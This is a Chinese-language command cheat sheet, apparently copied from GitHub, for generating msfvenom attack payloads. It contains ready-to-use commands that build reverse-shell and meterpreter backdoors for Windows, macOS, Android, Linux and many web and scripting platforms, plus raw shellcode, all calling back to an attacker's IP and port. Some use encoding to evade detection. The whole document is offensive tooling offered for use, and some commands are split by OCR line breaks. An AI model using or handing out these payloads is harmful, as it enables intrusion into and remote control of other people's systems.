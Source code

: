 ```yaml
---
title: msfvenom-生成攻击载荷-命令速查
categories:
- tools
tags:
- tools
---
```


参考资料：github-Micro8

msfvenom -l payload 列出所有可用载荷

## windows:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o
payload.exe
```
## mac:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f macho -o payload.macho
```
## android:
```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f apk -o payload.apk
```
## powershell:
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```
## linux:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f elf -o payload.elf
```
## php:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=
<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>
shell.php
```
## aspx:
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
## jsp:
```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻
击机端口 -f raw -o payload.jsp
```
## war:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
o payload.war
```
## nodejs:
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.js
```
## python:
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
f raw -o payload.py
```
## perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.pl
```
## ruby:
```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.rb
```
## lua:
```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.lua
```
## windows shellcode:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f c
```
## linux shellcode:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f c
```
## mac shellcode:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f c
```

